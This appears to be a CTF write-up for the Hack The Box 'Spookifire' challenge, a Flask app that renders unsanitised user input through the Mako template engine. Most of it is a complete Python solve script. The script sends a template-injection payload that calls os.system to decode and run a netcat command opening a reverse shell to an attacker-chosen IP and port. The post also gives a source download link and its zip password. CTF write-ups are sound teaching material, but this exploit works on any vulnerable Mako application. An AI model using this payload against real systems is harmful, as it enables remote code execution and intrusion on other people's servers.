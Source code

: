 ```yaml
---
title: Spookifire
date: 2023-12-09 15:53:16 +0800
categories: [Hackthebox-Challenges, spookifire]
tags: [htb, ctf, pentesting, web, code-auditing]
---
```



<img src="/assets/global/banner.png" alt="banner image">

## Spookifire is a python flask chalenge on Hackthebox

### Description:

Simply this challenge takes user input a print it different fornts
but the problem is it doesn't do any sanitizing and it passes the payload to Mako tamplete Engine to be rendered.

### Source code:
<a href='https://mega.nz/file/OexhiY5B#Q_Zv1UmJpz6XH365b_XSArulT7LUWtLQWZ3etvwLu5w'>Download source code</a>

*zip password: `hackthebox`*

### Vulnerable code:
```python
from mako.template import Template
```

```html
    <tbody>
        ${output}
    </tbody>

```

### Solve:

```python

import base64
import requests
import argparse
 
 

def solve(revshell_ip, revshell_port):
	url = 'http://localhost:1337/'

	rev = f"nc {revshell_ip} {revshell_port} -e /bin/sh"	
	payload = base64.b64encode(rev.encode('utf-8'))
	params = {
		'text': '${self.module.runtime.util.os.system("echo ' + str(payload, "utf-8") + ' | base64 -d| sh")}'
	}
 
	print('\n')
	print(params)
	print('\n')
	try:
		response = requests.get(url, params=params)
		if response.status_code == 200:
			print("Request successful!")
			# print("Response:", response.text)
		else:
			print(f"Request failed with status code: {response.status_code}")
	except requests.RequestException as e:
		print(f"Request failed: {e}")

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Enter your ip and port to get reverse shell.')
    parser.add_argument('ip', type=str, help='ip to get reverse shell')
    parser.add_argument('port', type=str, help='port to get reverse shell')
    args = parser.parse_args()
    solve(args.ip, args.port)

```







